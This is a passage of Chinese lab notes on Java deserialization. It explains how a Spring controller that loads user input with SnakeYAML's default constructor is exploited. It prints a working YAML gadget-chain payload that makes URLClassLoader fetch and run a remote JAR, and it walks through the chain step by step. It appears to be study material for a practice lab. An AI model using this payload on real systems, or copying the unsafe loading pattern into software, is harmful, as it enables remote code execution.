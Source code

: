 ![image-20250818214718656](./images/Java反序列化/image-20250818214718656.png)

对于靶场中当提交payload后

#### 流程

> ### 一、后端代码的处理逻辑
>
> 后端代码是一个 Spring 控制器，核心逻辑如下：
>
> 1. 接收前端传入的`content`参数（即用户可控的 YAML 字符串）；
> 2. 使用 SnakeYAML 的`Yaml`类（默认配置）调用`load(content)`方法，对 YAML 字符串进行反序列化；
> 3. 反序列化过程会根据 YAML 中的定义实例化 Java 对象，并返回结果。
>
> **关键风险点**：代码使用了`new Yaml()`的默认构造，此时 SnakeYAML 会使用`DefaultConstructor`—— 该构造器**不限制可实例化的类**，允许攻击者指定任意 Java 类进行反序列化。
>
> ### 二、Payload 的结构与执行流程
>
> 传入的 YAML payload 为：
>
> ```yaml
> !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ['http://127.0.0.1:8000/upload/yaml-payload.jar']]]]
> ```
>
> 其本质是通过 SnakeYAML 的反序列化机制，依次实例化三个关键类，形成攻击链：`URL` → `URLClassLoader` → `ScriptEngineManager`，最终触发恶意代码执行。具体流程如下：
>
> #### 1. 实例化`java.net.URL`对象
>
> - YAML 中`!!java.net.URL ['http://127.0.0.1:8000/upload/yaml-payload.jar']`表示：
>   反序列化一个`URL`对象，指向攻击者控制的恶意 JAR 包地址（`http://127.0.0.1:8000/upload/yaml-payload.jar`）。
>
> #### 2. 实例化`java.net.URLClassLoader`对象
>
> - YAML 中`!!java.net.URLClassLoader [[...]]`表示：
>   反序列化一个`URLClassLoader`（类加载器），其构造参数是上一步创建的`URL`数组（即恶意 JAR 的地址）。
>
>   `URLClassLoader`的作用是**从指定的 URL（远程或本地）加载类文件**。这里配置后，该类加载器会从`yaml-payload.jar`中加载类。